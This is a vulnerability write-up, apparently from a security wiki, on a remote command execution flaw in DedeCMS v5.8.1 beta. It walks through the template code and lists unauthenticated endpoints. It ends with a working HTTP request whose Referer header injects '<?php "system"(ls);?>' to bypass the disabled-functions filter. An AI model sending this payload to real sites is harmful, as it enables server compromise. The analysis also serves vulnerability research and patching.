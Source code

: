 # DedeCMS common.func.php remote command execution vulnerability

## Vulnerability Description

DocCMS flink.php file contains remote command execution vulnerability, and attackers can execute any command through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">DedeCMS v5.81 beta beta version</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"DedeCMS_V5.8.1"</span>

## Vulnerability reappears

Product Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633231738375-8b54ff36-5155-421a-aa24-4c89033cfe3a.png)

View the ShowMsg method of file `include/common.func.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633231813053-82d63b1c-5d89-4fa1-8d04-50fefc586ced.png)

```php
function ShowMsg($msg, $gourl, $onlymsg = 0, $limittime = 0)
{
    if (empty($GLOBALS['cfg_plus_dir'])) {
        $GLOBALS['cfg_plus_dir'] = '..';
    }
    if ($gourl == -1) {
        $gourl = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : '';
        if ($gourl == "") {
            $gourl = -1;
        }
    }

    $htmlhead = "
    <html>\r\n<head>\r\n<title>DedeCMS提示信息</title>\r\n
    <meta http-equiv=\"Content-Type\" content=\"text/html; charset={dede:global.cfg_soft_lang/}\" />
    <meta name=\"viewport\" content=\"width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no\">
    <meta name=\"renderer\" content=\"webkit\">
    <meta http-equiv=\"Cache-Control\" content=\"no-siteapp\" />
    <link rel=\"stylesheet\" type=\"text/css\" href=\"{dede:global.cfg_assets_dir/}/pkg/uikit/css/uikit.min.css\" />
    <link rel=\"stylesheet\" type=\"text/css\" href=\"{dede:global.cfg_assets_dir/}/css/manage.dede.css\">
    <base target='_self'/>
    </head>
    <body>
    " . (isset($GLOBALS['ucsynlogin']) ? $GLOBALS['ucsynlogin'] : '') . "
    <center style=\"width:450px\" class=\"uk-container\">
    
    <div class=\"uk-card uk-card-small uk-card-default\" style=\"margin-top: 50px;\">
        <div class=\"uk-card-header\"  style=\"height:20px\">DedeCMS 提示信息！</div>

    <script>\r\n";
    $htmlfoot = "
    </script>
    
    
    </center>
    
    <script src=\"{dede:global.cfg_assets_dir/}/pkg/uikit/js/uikit.min.js\"></script>
	<script src=\"{dede:global.cfg_assets_dir/}/pkg/uikit/js/uikit-icons.min.js\"></script>
    </body>\r\n</html>\r\n";

    $litime = ($limittime == 0 ? 1000 : $limittime);
    $func = '';

    if ($gourl == '-1') {
        if ($limittime == 0) {
            $litime = 3000;
        }

        $gourl = "javascript:history.go(-1);";
    }

    if ($gourl == '' || $onlymsg == 1) {
        $msg = "<script>alert(\"" . str_replace("\"", "“", $msg) . "\");</script>";
    } else {
        //当网址为:close::objname 时, 关闭父框架的id=objname元素
        if (preg_match('/close::/', $gourl)) {
            $tgobj = trim(preg_replace('/close::/', '', $gourl));
            $gourl = 'javascript:;';
            $func .= "window.parent.document.getElementById('{$tgobj}').style.display='none';\r\n";
        }

        $func .= "var pgo=0;
      function JumpUrl(){
        if(pgo==0){ location='$gourl'; pgo=1; }
      }\r\n";
        $rmsg = $func;
        $rmsg .= "document.write(\"<div style='height:130px;font-size:10pt;background:#ffffff'><br />\");\r\n";
        $rmsg .= "document.write(\"" . str_replace("\"", "“", $msg) . "\");\r\n";
        $rmsg .= "document.write(\"";

        if ($onlymsg == 0) {
            if ($gourl != 'javascript:;' && $gourl != '') {
                $rmsg .= "<br /><a href='{$gourl}'>如果你的浏览器没反应，请点击这里...</a>";
                $rmsg .= "<br/></div>\");\r\n";
                $rmsg .= "setTimeout('JumpUrl()',$litime);";
            } else {
                $rmsg .= "<br/></div>\");\r\n";
            }
        } else {
            $rmsg .= "<br/><br/></div>\");\r\n";
        }
        $msg = $htmlhead . $rmsg . $htmlfoot;
    }
    
    $tpl = new DedeTemplate();
    $tpl->LoadString($msg);
    $tpl->Display();
}

/**
 *  获取验证码的session值
 *
 * @return string
 */
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633232085348-587628d9-8cd6-404e-9376-197149b94d8e.png)

Note here that when the $gourl variable is -1, the request parameter Referer is a user-controllable parameter

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633235322584-7cd49fee-230b-4109-b082-9185450ddf8b.png)

Look below, you can find two methods of passing controllable variables into

```php
$tpl = new DedeTemplate();
$tpl->LoadString($msg);
$tpl->Display();
```

The tracking method comes to the `include/dedetemplate.class.php` file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633235467775-2462bab3-0d80-4795-9e2f-c640086838cc.png)

ParseTemplate() is the template rendering method, read it down

```php
public function Display()
    {
        global $gtmpfile;
        extract($GLOBALS, EXTR_SKIP);
        $this->WriteCache();
        include $this->cacheFile;
    }
```

Track the `WriteCache()` method

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633235811291-45805193-d5b0-4a77-8f5c-6aa028f2c5ec.png)

Look at the GetResult() method and the CheckDisableFunctions() method

```php
public function GetResult()
    {
        if (!$this->isParse) {
            $this->ParseTemplate();
        }
        $addset = '';
        $addset .= '<' . '?php' . "\r\n" . 'if(!isset($GLOBALS[\'_vars\'])) $GLOBALS[\'_vars\'] = array(); ' . "\r\n" . '$fields = array();' . "\r\n" . '?' . '>';
        return preg_replace("/\?" . ">[ \r\n\t]{0,}<" . "\?php/", "", $addset . $this->sourceString);
    }
public function CheckDisabledFunctions($str, &$errmsg = '')
    {
        global $cfg_disable_funs;
        $cfg_disable_funs = isset($cfg_disable_funs) ? $cfg_disable_funs : 'phpinfo,eval,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,file_put_contents,fsockopen,fopen,fwrite';
        // 模板引擎增加disable_functions
        if (!defined('DEDEDISFUN')) {
            $tokens = token_get_all_nl($str);
            $disabled_functions = explode(',', $cfg_disable_funs);
            foreach ($tokens as $token) {
                if (is_array($token)) {
                    if ($token[0] = '306' && in_array($token[1], $disabled_functions)) {
                        $errmsg = 'DedeCMS Error:function disabled "' . $token[1] . '" <a href="https://help.dedecms.com/install-use/apply/2013/0711/2324.html" target="_blank">more...</a>';
                        return false;
                    }
                }
            }
        }
        return true;
    }
```

The result returned after the GetResult() method is filtered by the CheckDisabledFunctions() method `include $this->cacheFile;` of Display()

```php
public function Display()
    {
        global $gtmpfile;
        extract($GLOBALS, EXTR_SKIP);
        $this->WriteCache();
        include $this->cacheFile;
    }
```

At this time, we can control the rendering of the template by controlling the Referer request header, bypassing the filtering of the CheckDisabledFunctions() method to cause remote command execution

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633236858672-40917ea7-923b-41ea-aea1-755f8a8f6ad1.png)

Command execution is performed by regularly finding affected files that do not require authentication.

```php
/plus/flink.php?dopost=save
/plus/users_products.php?oid=1337
/plus/download.php?aid=1337
/plus/showphoto.php?aid=1337
/plus/users-do.php?fmdo=sendMail
/plus/posttocar.php?id=1337
/plus/vote.php?dopost=view
/plus/carbuyaction.php?do=clickout
/plus/recommend.php
........
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633236356274-5f1db6df-d7e7-4373-8089-bbd1ec99bc4f.png)

Here, use unfiltered double quotes to bypass disables' prohibited functions

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633236516310-093329a4-a727-4328-ab22-cae8b14d2023.png)

Vulnerability request package

```php
GET /plus/flink.php?dopost=save HTTP/1.1
Host:
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: <?php "system"(ls);?>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```



If you gain something, just like it